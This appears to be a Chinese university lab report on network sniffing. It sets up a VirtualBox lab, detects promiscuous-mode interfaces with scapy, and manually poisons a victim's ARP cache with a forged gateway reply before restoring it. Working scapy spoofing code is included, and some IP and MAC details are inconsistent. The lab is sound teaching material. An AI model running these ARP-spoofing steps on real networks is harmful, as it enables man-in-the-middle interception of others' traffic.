

# 第四章 网络监听（实验）

## 实验目的

- 网络监听原理
- 网络监听工具
- 网络监听的检测和防范

## 实验环境

- Windows 11 宿主机
- VirtualBox 虚拟机
- 攻击者主机（Attacker）：Kali-rolling 2022.3
- 网关（Gateway, GW）：Debian Buster
- 靶机（Victim）：Kali-rolling 2022.3

## 实验准备

### 一、实验网络环境

本次实验网络环境请参考[第一章实验](https://github.com/CUCCS/2022-ns-public-excuses0217/blob/chap0x01/chap0x01/第一章 基于 VirtualBox 的网络攻防基础环境搭建.md#实验要求)，并在内网 intnet1 中添加主机 attacker_kali_01

各主机 IP 地址及 MAC 地址

| 虚拟机（攻击者/被攻击者-系统-内网） | 网卡/连接方式  | IP             | MAC 地址          |
| ----------------------------------- | -------------- | -------------- | ----------------- |
| gw_debian                           | enp0s9/intnet1 | 172.16.111.1   | 08:00:27:c0:0b:b6 |
| attacker_kali_01                    | eth0/intnet1   | 172.16.111.121 | 08:00:27:33:33:3c |
| vitctim_kali_01                     | eth0/intnet1   | 172.16.111.113 | 08:00:27:d4:90:db |

### 二、安装 scapy

在攻击者主机上提前安装好 scapy 

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip -y

# ref: https://scapy.reyadthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```


## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0    
#2: eth0: &lt;BROADCAST,MULTICAST,UP,LOWER_UP&gt; mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#    link/ether 08:00:27:d4:90:db brd ff:ff:ff:ff:ff:ff
```



```bash
# 在攻击者主机上开启 scapy
# 记得 sudo，不然发不出去
sudo scapy

# 在 scapy 的交互式终端输入以下代码回车执行（其中 IP 地址为受害者主机 IP）
pkt = promiscping("172.16.111.121")

# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0               
# 2: eth0: &lt;BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP&gt; mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#    link/ether 08:00:27:d4:90:db brd ff:ff:ff:ff:ff:ff
```


```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.121")
```


通过在 vitctim_kali_01 上用 wireshark 抓包可以发现`promiscping` 命令发送的是 ARP 数据包


```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```

**[混杂模式](https://zh.wikipedia.org/wiki/%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F)**（英语：promiscuous mode）是电脑网络中的术语。是指一台机器的网卡能够接收所有经过它的数据流，而不论其目的地址是否是它。

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

#  ###[ Ethernet ]### 
#  dst= ff:ff:ff:ff:ff:ff
#  src= 08:00:27:33:33:3c
#  type= ARP
#  ###[ ARP ]### 
#     hwtype= 0x1
#     ptype= IPv4
#     hwlen= None
#     plen= None
#     op= who-has
#     hwsrc= 08:00:27:33:33:3c
#     psrc= 172.16.111.113
#     hwdst= 00:00:00:00:00:00
#     pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
print(gw_mac)

# 08:00:27:c0:0b:b6

# Begin emission:
# Finished sending 1 packets.
# *
# Received 1 packets, got 1 answers, remaining 0 packets
```


```bash
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.121
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.121", hwdst="08:00:27:33:33:3c")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
# 172.16.111.113 dev eth0 lladdr 08:00:27:33:33:3c STALE 
# 172.16.111.1 dev eth0 lladdr 08:00:27:33:33:3c REACHABLE 
```


回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2,psrc="172.16.111.1",hwsrc="08:00:27:c0:0b:b6",pdst="172.16.111.121",hwdst="08:00:27:d4:90:db")
sendp(restorepkt1, count=100, inter=0.2)
```


受害者主机恢复 ARP 缓存记录


此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

## 补充 FAQ

##### [解决安装 python3-pip 时遇到的依赖冲突](https://superuser.com/questions/1555536/cannot-solve-the-the-following-packages-have-unmet-dependencies-issue)

```bash
apt install python3-pip
# Reading package lists... Done
# Building dependency tree
# Reading state information... Done
# Some packages could not be installed. This may mean that you have
# requested an impossible situation or if you are using the unstable
# distribution that some required packages have not yet been created
# or been moved out of Incoming.
# The following information may help to resolve the situation:
# 
# The following packages have unmet dependencies:
#  libc6-dev : Breaks: libgcc-9-dev (< 9.3.0-5~) but 9.2.1-21 is to be installed
# E: Error, pkgProblemResolver::Resolve generated breaks, this may be caused by held packages.
apt update && apt-get install gcc-9-base libgcc-9-dev libc6-dev
pip3 install scapy[complete] -i https://pypi.tuna.tsinghua.edu.cn/simple
```

##### scapy 的交互式控制台在自动补全时触发太多 `DeprecationWarning` 的解决办法

进入 `scapy` 交互式控制后输入以下代码并执行。

```python
import warnings
warnings.filterwarnings('ignore')
```

##### 开启 tcpdump 抓包默认开启「混杂」模式，但查看网卡状态无变化

根据 [tcpdump 帮助手册记录](https://www.tcpdump.org/manpages/tcpdump.1.html)：

> -p --no-promiscuous-mode Don't put the interface into promiscuous mode. Note that the interface might be in promiscuous mode for some other reason; hence, `-p' cannot be used as an abbreviation for`ether host {local-hw-addr} or ether broadcast'.

使用 `-p` 参数可以禁止使用「混杂」模式嗅探网卡。

## 

## 问题与反思

1. 在 scapy 中使用lsc()` 命令可以知道 promiscping 的功能

   ```bash
   # promiscping         : Send ARP who-has requests to determine which hosts are in promiscuous mode
   ```

   也就是说 promiscping 命令会发送 `ARP who-has` 请求

2. **[混杂模式](https://zh.wikipedia.org/wiki/%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F)**（英语：promiscuous mode）是电脑网络中的术语。是指一台机器的网卡能够接收所有经过它的数据流，而不论其目的地址是否是它。


## 参考链接

- [Scapy 官方文档](https://scapy.readthedocs.io/en/latest/api/scapy.layers.l2.html)
- [混杂模式 wiki](https://zh.wikipedia.org/wiki/%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F)
- [网络安全电子书 黄玮](https://c4pr1c3.github.io/cuc-ns/)


## 课后思考题

1. 总结⼀下在交换式局域网环境中的网络攻防之术有哪些？

   - 溢出攻击

     交换机工作时要维护一张MAC地址与端口的映射表。但是用于维护这张表的内存是有限的。如用大量的错误MAC地址的数据帧对交换机进行攻击，交换机就可能出现溢出。这时交换机就会退回到HUB的广播方式，向所有的端口发送数据包，一旦如此，监听就很容易了。

   - ARP欺骗（常用技术）

     dsniff 和 parasite 等交换式局域网中的嗅探工具就是利用 ARP 欺骗来实现的。通过 ARP 欺骗，攻击者可以成为被攻击者与交换机之间的“中间人”，使交换式局域网中的所有数据包都流经自己主机的网卡，这样就可以像共享式局域网一样分析数据包了。

2. 如何理解“仅仅使用 VLAN 划分的⽅法是⽆法彻底解决 ARP 欺骗与攻击”问题？

   ICMP重定向报文是ICMP控制报文中的一种。在特定的情况下，当路由器检测到一台机器使用非优化路由的时候，它会向该主机发送一个ICMP重定向报文，请求主机改变路由。路由器也会把初始数据报向它的目的地转发。我们可以利用ICMP重定向报文达到欺骗的目的。